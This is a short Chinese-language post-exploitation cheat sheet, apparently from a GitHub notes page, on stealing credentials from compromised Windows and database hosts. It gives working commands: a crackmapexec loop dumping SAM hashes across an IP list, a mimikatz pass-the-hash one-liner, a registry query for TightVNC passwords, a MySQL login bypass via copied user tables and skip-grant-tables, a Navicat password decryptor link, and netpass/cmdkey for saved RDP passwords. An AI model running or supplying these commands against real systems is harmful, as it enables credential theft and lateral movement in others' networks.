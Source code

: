 
![image-20201117211433051](https://raw.githubusercontent.com/Explorersss/photo/master/20201117211433.png)



```
for /f "delims=" %i in (ip.txt) do @crackmapexec.exe -d . -u adminstrator -H:xxx
-t 1 --sam %i
```

这个只能抓取用户的密码hash而且有时候还不太靠谱



## 各种软件密码解密

### vpc密码

vpc密码一般存储在注册表中：

如tightvnc:`reg query HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server /v password`

### 不知道mysql密码的情况下读取数据

将mysql中的data目录下的user.myd,user.frm,user.myi拷贝下来

替换本地搭建的mysql服务的对应文件，正在my.ini中添加：`skip-grant-tables`

重启mysql



### mssql 免密登入

条件：获得administrator权限

```
mimikatzz "privilege::debug" "sekurlsa::pth /user:adminstrator /domain:. /ntlm:xxxxxxxx /run:\"SocksCap64_RunAsAdmin.exe\"" "exit"
```

![image-20201117212638263](https://raw.githubusercontent.com/Explorersss/photo/master/20201117212638.png)



### Navicat密码

![image-20201117212802951](https://raw.githubusercontent.com/Explorersss/photo/master/20201117212803.png)

[NavicatCryptoHelper.py](https://github.com/HyperSine/how-does-navicat-encrypt-password/blob/master/python3/NavicatCipher.py)



### rdp连接密码

```
cmdkey /l
netpass.exe /stext rdppwd.txt
```
